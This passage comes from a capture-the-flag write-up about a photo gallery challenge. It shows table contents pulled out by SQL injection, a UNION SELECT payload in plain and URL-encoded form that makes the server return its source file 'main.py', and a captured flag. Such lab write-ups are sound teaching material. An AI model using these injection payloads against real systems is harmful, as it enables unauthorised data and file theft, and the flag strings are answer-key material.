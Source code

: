 ### Database Schema Discovery
The exploitation revealed:

```sql
Database: level5
Table: photos
Columns: filename (and likely id, other metadata)

Extracted Data:
+------------------------------------------------------------------+
| filename                                                         |
+------------------------------------------------------------------+
| c544ef210f04b81955b20380c262c72b468f5d27298c19e3d54e905ae31e5e2b |
| files/adorable.jpg                                               |
| files/purrfect.jpg                                               |
+------------------------------------------------------------------+
```

---

## 🛠️ Advanced Exploitation Techniques

### Research and Discovery
After capturing the first flag, analysis of the application architecture led to discovery of additional attack vectors through configuration file access.

### UNION-Based File Reading
**Target Configuration**: uwsgi configuration files
**Reference**: [uwsgi-nginx-flask-docker repository](https://github.com/tiangolo/uwsgi-nginx-flask-docker)

### File System Access
Using UNION SELECT to read server files:

```sql
fetch?id=0 UNION SELECT 'main.py'
```

**URL Encoded Version**:
```
fetch?id=4%20UNION%20SELECT%20%27main.py%27
```

### 🏁 Second Flag Captured
```
^FLAG^b0505ec012965bd54a227552d5c9f113187f785d66e3c35ae1b7f170cefc3ace$FLAG$
```

**Technique Used**: UNION-based SQL injection to read server configuration files and source code.

---

## 🔧 Technical Deep Dive
